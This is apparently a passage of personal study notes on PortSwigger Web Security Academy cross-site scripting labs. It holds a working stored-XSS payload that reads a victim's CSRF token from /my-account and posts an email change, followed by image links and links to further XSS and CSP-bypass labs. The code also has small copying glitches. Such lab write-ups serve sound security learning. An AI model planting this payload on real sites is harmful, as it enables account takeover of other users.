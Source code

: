     ```
    `<script>
    
     var req = new XMLHttpRequest();
     req.onload = handleResponse;
     
     req.open('get','/my-account',true); 
     req.send(); function handleResponse() { var token this.responseText.match(/name="csrf" value="(\w+)"/)[1];
      
     var changeReq = new XMLHttpRequest(); 
     changeReq.open('post', '/my-account/change-email', true); 
     changeReq.send('csrf='+token+'&email=test@test.com') };
    
     </script>`
``
    
This will make anyone who views the comment issue a POST request to change their email address to `test@test.com`.

	![[Pasted image 20240915033546.png]]
		![[Pasted image 20240915033425.png]]

- payload to inject:
	![[Pasted image 20240915034247.png]]
		![[Pasted image 20240915034146.png]]


**To be continued...**

[Reflected XSS with AngularJS sandbox escape without strings](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings)

[Reflected XSS with AngularJS sandbox escape and CSP](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp)

[Reflected XSS with event handlers and `href` attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked)

[Reflected XSS in a JavaScript URL with some characters blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)

[Reflected XSS protected by very strict CSP, with dangling markup attack](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack)

[Reflected XSS protected by CSP, with CSP bypass](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-bypass)
